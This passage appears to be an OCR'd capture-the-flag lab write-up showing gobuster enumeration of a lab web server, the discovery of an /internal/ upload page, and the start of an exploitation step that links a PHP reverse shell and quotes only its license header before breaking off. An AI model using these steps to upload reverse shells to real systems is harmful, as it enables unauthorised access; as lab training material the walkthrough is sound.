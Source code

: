 ```bash
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/css                  (Status: 301) [Size: 317] [--> http://10.10.14.235:3333/css/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.14.235:3333/fonts/]
/images               (Status: 301) [Size: 320] [--> http://10.10.14.235:3333/images/]
/index.html           (Status: 200) [Size: 33014]
/internal             (Status: 301) [Size: 322] [--> http://10.10.14.235:3333/internal/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.14.235:3333/js/]
/server-status        (Status: 403) [Size: 302]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

Uhh, we found something there, Webpage has /internal directory. Let's look into that.

After visiting the `machine_ip:3333/internal`, we were responded with upload page.

**Q7. What is the directory that has an upload form page?**
- **Ans** `/internal/`

With tha we have completed out phase 2.

## Phase 3: Exploitation
We have found upload page in the website, now let's try uploading some revshell to gain machine access.
For that we need download revshell code. let's visit [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
 
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
```